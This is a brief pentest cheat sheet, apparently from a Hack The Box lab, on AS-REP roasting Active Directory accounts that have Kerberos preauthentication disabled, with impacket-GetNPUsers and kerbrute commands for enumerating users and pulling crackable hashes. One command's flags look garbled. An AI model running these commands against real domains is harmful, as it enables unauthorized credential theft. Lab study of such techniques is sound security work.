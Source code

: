 
In this context, GetNPUsers is used to exploit the AS-REP (Authentication Service Response) protocol to request tickets without having the need to provide the account's password. **It targets user accounts that have the "Do not require Kerberos preauthentication" flag set, allowing the retrieval of credentials that can be cracked offline.**

# Kerberos Pre-Authentication disabled

**will give service user**
```sh
impacket-GetNPUsers htb.local/ -dc-ip 10.10.10.161
```

**will bring user hashes**

```sh
impacket-GetNPUsers htb.local/ -usersfile sname.txt -dc-ip <IP>
```

```sh
impacket-GetNPUsers joshi.local/ -dc-ip 192.168.1.100 -u user-Principal-Name-for-kerberoasting.txt
```


```sh
kerbrute --dc 10.10.10.161 -d htb.local userenum sname.txt 
```

**downgrade hash**

```sh
kerbrute --dc 10.10.10.161 -d htb.local userenum sname.txt --downgrade
```
